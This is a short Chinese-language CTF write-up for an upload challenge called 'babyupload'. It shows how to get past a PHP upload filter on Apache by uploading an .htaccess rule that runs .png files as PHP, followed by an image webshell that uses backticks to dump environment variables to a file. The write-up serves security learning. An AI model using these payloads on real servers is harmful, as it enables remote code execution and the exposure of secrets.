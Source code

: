 ## babyupload

尝试发现过滤了`php`的各种格式，以及函数的括号`()`，还会检测图片的文件头，服务器是`apache`类型，可以利用`.htaccess`文件和图片马来rce

`.htaccess`文件

```php
AddType application/x-httpd-php .png
```

![13](/medias/buildCTF/13.png)

图片马需要一些绕过，使用反引号直接执行命令，避免使用函数。如果一定要使用函数，`include`，`require`也可以尝试一下，这两个函数可以作为语言结构直接用，例如`include"1.png";`

图片马`1.png`，把结果写到`1.txt`

```php
<?=`env > 1.txt`?>
```
